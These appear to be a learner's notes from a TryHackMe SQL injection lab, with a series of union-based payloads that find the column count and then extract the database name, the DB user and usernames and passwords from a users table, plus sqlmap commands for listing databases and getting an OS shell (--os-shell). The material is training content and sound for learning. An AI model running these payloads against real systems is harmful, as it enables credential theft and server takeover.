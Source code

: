 Task 7 Unit 7 - Union Based SQLi 
' UNION SELECT NULL --
' UNION SELECT NULL,NULL -- //
' UNION SELECT NULL,NULL,NULL, -- //
' UNION SELECT NULL,NULL,NULL,NULL-- //
' UNION SELECT NULL,NULL,NULL,NULL,NULL -- //


' UNION SELECT NULL 'a' -- //


' UNION SELECT NULL,NULL,NULL,NULL,'a' -- //
' UNION SELECT NULL,NULL,NULL,'a',NULL -- //
' UNION SELECT NULL,NULL,'a',NULL,NULL -- //
' UNION SELECT NULL,'a',NULL,NULL,NULL -- //
' UNION SELECT 'a',NULL,NULL,NULL,NULL -- //

' UNION SELECT NULL,database(),NULL,NULL,NULL -- //
database()
or 
' UNION SELECT NULL,NULL,database(),NULL,NULL -- //
...
	sqlitraining

user(),@@version,username,password

' UNION SELECT NULL,NULL,user(),NULL,NULL -- //

' union select null, id, username, password, fname from users -- //


Task 8 Unit 8 - Automating exploitation 
sql
https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet


How would you get an OS shell on website "sqli.thm/login.php"? (URL switch comes first)
sqlmap -u "http://10.10.179.137/login.php" --os-shell
sqlmap -u sqli.thm/login.php — os-shell




What about listing all databases on the same website? (URL switch comes first)


sqlmap -u "sqli.thm/login.php" --dbs

https://tryhackme.com/room/sqlibasics

Congratulations! You have successfully gone through the major part of SQLi. Now, with all that knowledge it won't take long for you to pick up on small tricks and tactics by reading and researching more. I have attached a some further SQLi resources for you to explore. Enjoy!

If you have any questions or willing to leave feedback, you can easily reach me out on TryHackMe discord.
Good luck with your studies!

Payload Lists:
1. https://github.com/payloadbox/sql-injection-payload-list 
2. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection 

Guides & Blogs:
1. https://www.sqlinjection.net/
2. http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet 
3. https://github.com/trietptm/SQL-Injection-Payloads 
4. https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet 
5. https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/ 
(Special thanks to TheMayor for linking the last one)

Labs and practice:
1. https://portswigger.net/web-security/sql-injection
2. https://github.com/Audi-1/sqli-labs
3. https://github.com/appsecco/sqlinjection-training-app
4. https://tryhackme.com/room/gamezone 
5. https://tryhackme.com/room/avengers
6. https://tryhackme.com/room/uopeasy 
7. https://tryhackme.com/room/jurassicpark 


